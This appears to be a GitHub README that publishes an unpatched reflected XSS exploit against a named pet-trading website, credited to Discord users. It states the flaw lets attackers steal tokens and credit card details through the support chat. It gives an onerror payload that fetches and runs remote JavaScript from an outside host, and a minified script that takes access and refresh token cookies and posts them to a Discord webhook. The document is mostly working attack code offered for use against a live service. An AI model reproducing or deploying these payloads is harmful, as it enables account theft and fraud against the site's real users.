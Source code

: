 EXPLOIT/CODE FOUND AND MADE BY @Itemset on discord 
TEST BY LUKE AND NTXING




## Status: Not Fixed😡

### website: https://starpets.gg
#### Vulnibity: XSS Reflected 

**What can this exploit do?**

- lets attackers steal access tokens
- inject JS in to page
- steal creditcards when entered
- spoof website

**Where?**
In support chat. Victim will send the payload in the chat and JS will be injected

**xss injection**
```html
<img src="" onerror="YOUR SCRIPT" />
```

**Proof of work**
```html
<img src="" onerror="fetch('https://badcode.com/script.js').then(response => response.text()).then(script => new Function(script)());"/>
```
the following shows how to inject a remote javascript file on the website.

**Proof of concept**
using the proof of work if the attacker wants to steal a starpets account he must use the following JS script to be loaded 

```js
function getCookiesMap(e){return e.split(";").map(function(e){return e.trim().split("=")}).reduce(function(e,n){return e[n[0]]=n[1],e},{})}function tokens(){let e=getCookiesMap(document.cookie);if(!e.hasOwnProperty("access-token")||!e.hasOwnProperty("refresh-token"))return[void 0,void 0];let n=e["access-token"],t=e["refresh-token"];return{accessToken:n,refreshToken:t}}async function leet(e,n,t){try{await fetch(e,{method:"POST",headers:{"Content-Type":"application/json"},body:JSON.stringify({content:null,embeds:[{title:"1337 made by NTX, Camel and Luke!",color:0,fields:[{name:"Access Token",value:"```\n"+n+"\n```"},{name:"Refresh Token",value:"```\n"+t+"\n```"}]}],attachments:[]})})}catch(o){console.error("Error sending message:",o)}}const{accessToken:e,refreshToken:n}=tokens();leet(atob("YOUR BASE 64 DISCORD WEBHOOK"),e,n);
```
